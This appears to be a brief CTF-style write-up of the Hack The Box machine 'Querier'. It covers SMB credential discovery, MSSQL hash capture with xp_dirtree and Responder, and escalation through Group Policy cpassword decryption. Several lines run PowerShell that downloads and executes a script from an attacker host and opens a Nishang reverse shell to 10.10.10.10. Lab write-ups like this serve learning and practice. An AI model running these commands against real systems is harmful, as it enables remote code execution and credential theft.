 ```yaml
---
layout: post
title: Querier - HTB
subtitle: Medium box
cover-img: /assets/img/thmimage.png
thumbnail-img: /assets/img/thmimage.png
share-img: /assets/img/thmimage.png
tags: [THM, Medium, Machine]
---
```


nmap revealed smb

smb got an xml file containing macro with creds for mssql server running on port 1433

using [mssqlclient.py](http://mssqlclient.py)(from impacket) logged into mssql server. turned responder on and run the following command in the mssql server pointing to my box with responder:

```bash
exec xp_dirtree '\\10.10.10.10\share\file'
```

crack the hash with john and then go back into the mssql server with the new credentials

now able to run commands ( have to enable first with the following command):

```bash
enable_xp_cmdshell
```

now we need to prepare a rev shell fire it up and get a real shell on the box. using nishang powershellreverce tcp

with this payload at the bottom (that’s how it works ? )

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

now that we sorted the powershell we fire up a python server, netcat listener and we get it over to the box using the mssql shell and the following command;

```bash
xp_cmdshell powershell iex(new-object net.webclient).downloadstring(\"http://10.10.10.10/Invoke-PowerShellTcp.ps1\")
```

and now we got real shell on the box. now we can load up powersploit powerup script. make sure you add at the end of it Invoke-AllChecks same as we done with the payload in the revshell then just bring it over to the box in the same way using the same payload without the \:

```bash
iex(new-object net.webclient).downloadstring("http://10.10.10.10/Invoke-PowerShellTcp.ps1")
```

that will reveal the cpassword storred in Groups.xml it may even decrypt it for us if not then we can just take the cpassword from within the file and use gpp-decrypt “cpassword” and will decrypt it for us
